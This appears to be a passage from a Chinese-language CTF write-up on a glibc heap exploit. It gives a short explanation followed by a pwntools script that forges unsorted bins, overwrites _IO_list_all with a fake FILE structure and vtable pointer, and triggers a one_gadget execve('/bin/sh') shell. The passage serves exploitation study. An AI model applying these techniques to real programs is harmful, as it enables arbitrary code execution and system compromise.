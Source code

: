 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>既然有了重叠堆块，再搞一个重叠unsortedbin岂不容易，但这里有一个trick就是free的时候注意伪造一下前后堆块，随便在堆块末尾伪造一个fastbin或者pre_inuse置位的chunk，在这里我直接填充堆块为0x91就完事了。然后free掉末尾的堆块，这样我们就得到了两个没有被top chunk合并的unsortedbin，并且chunk_count=0，因此我们分配了低地址的chunk后对之进行编辑就可以随意修改unsortedbin了，所以这题的思路就这样。对了glibc2.24的话伪造vtable不行了，就把它放在\_IO_str_jumps处，然后根据偏移写好one_gadget就行了，其实跟glibc2.23差了不是特别多，嫌麻烦的学完了之后2.23，2.24的都用这个方法也行（没有2.24libc的，用how2pwn里的unlink2shell.c可以验证绕过vtable是可行的）。</font></br>

```python
add(0x1f8)      # 1
edit(p64(0x91)*0x38)
dele(0)
dele(2)

add(0x118)      # 0
edit(p64(0x91)*0x20)
dele(0)
dele(1)
# we got 2 unsorted bins

# alloc first one
# then rewrite the next unsorted bin, finish the attack!
add(0x118)
payload=p64(0)*3+p64(0x61)
payload+=p64(0)+p64(_IO_list_all+libc_base-0x10)
payload+=p64(0)+p64(1)
payload+=p64(0)*21+p64(_IO_file_jumps+libc_base+0xc0)
payload+=p64(one_gadget+libc_base)
edit(payload)
#gdb.attach(p,gdbscript='finish\nfinish\nfinish\nfinish\nfinish')

add(0x100)


p.interactive()


'''
0x3f4d6	execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x3f52a	execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xd6655	execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''

```



